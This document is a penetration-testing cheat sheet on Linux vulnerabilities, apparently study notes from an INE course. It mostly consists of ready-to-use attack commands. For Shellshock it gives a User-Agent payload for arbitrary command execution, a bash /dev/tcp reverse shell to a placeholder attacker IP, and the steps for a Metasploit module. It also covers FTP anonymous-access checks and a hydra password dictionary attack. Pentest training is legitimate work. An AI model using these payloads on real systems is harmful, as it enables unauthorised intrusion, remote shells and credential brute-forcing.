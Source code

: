 # Linux Vulnerabilities

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

## Frequently Exploited Linux Services

* Apache Web Server -- TCP ports 80/443
* SSH -- TCP port 22
* FTP -- TCP port 21
* SAMBA -- TCP port 445

## Shellshock

* CVE-2014-6271
* Bash
* Allows attacker to execute remote arbitrary commands via Bash
* Need to locate an input vector or script that allows you to communicate with Bash first
* Uses Common Gateway Interface (CGI) Scripts

### nmap
Check for Shellshock vulnerability:
```
nmap -sV [TARGET-IP] --script=http-shellshock --script-args "http-shellshock.uri=/[CGI-PATH]
```

### Burp Suite

* Use Burp Suite (or other attack proxy) to capture request of the .cgi location on the web server.
* Send it to the repeater.
* replace "User-Agent" with:
```
() { :; }; echo; echo; /bin/bash -c '[COMMAND-TO-EXECUTE]'
```
* and send it to the web server.
* The response should give you the output of the command specified 
* use this command to get a reverse shell (set up a listener before running it):
```
() { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/[ATTACK-IP]/[LISTENER-PORT] 0>&1'
```

### Metasploit

```
search Shellshock
```
```
use exploit/multi/http/apache_mod_cgi_bash_env_exec
```
```
set RHOSTS [TARGET-IP]
```
```
set TARGETURI [CGI-PATH]
```
and any other options (may need to change port for example)
```
exploit
```

**************************************

## FTP

Check for anonymous access:
```
ftp [TARGET-IP]
```
Username:
```
anonymous
```
Password:
```
```
Another way:  
nmap --script ftp-anon.nse

Download file:
```
get [FILE]
```

Login:
```
ftp [TARGET-IP]
```

### hydra

Dictionary Attack:
```
hydra -L [USERS-WORDLIST] -P [PASSWORD-WORDLIST] [TARGET-IP] ftp
```

**************************************

## SSH

**************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2